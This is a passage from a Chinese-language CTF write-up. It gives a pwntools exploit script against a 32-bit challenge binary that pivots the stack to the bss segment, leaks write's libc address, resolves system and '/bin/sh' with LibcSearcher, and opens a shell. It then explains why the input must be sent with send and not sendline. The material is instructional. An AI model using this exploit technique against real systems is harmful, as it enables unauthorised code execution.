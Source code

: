 ```python

payload1='aaaa'+p32(write_plt)+p32(main_addr)+p32(1)+p32(write_got)+p32(4)

p.recvuntil('What is your name?')

p.send(payload1)

p.recvuntil('What do you want to say?')

payload2='a'*0x18+p32(0x0804A300)+p32(0x08048511) #前面的是bss段地址，后面这个地址是level;ret地址

p.send(payload2)

write_addr=u32(p.recv(4))

obj=LibcSearcher('write',write_addr)

libc_base=write_addr-obj.dump('write')

sys_addr=libc_base+obj.dump('system')

bin_sh_addr=libc_base+obj.dump('str_bin_sh')

p.recvuntil('What is your name?')

payload3='aaaa'+p32(sys_addr)+p32(0)+p32(bin_sh_addr)

p.send(payload3)

p.recvuntil('What do you want to say?')

payload4='a'*0x18+p32(0x0804A300)+p32(0x08048511)

p.send(payload4)

p.interactive()
```

​    这里有一个很重要的点，一定要注意，就是这里第二次输入的时候，必须要用send去发送，不能用sendline发送

​	下图的左侧是使用send发送了0x20个数据，右侧使用的是sendline发送了0x20个数据，可以发现，*右侧最后发送是多了一个回车*，此时程序本来是正常要发送一句hello good ctfer!what is you name?然后会等待用户发送一个内容，然后显示what you want to，左侧的确是这样，但右侧直接what is you name?之后把what you want to给打印出来了，也就根本没有让用户输入内容，为什么？**因为sendline多出来的回车，存放到了缓冲区里面，下次输入的时候，程序直接就把缓冲区里的内容读进去了，发现是个回车，程序认为你的输入已经结束了，因此就打印了what you want to，事实上你根本就还没输入。**

由此可见，在任何时候发送数据，选择sendline时，都需谨慎。
![image-20220411123521734](/upload/img/image-20220411123521734.png)

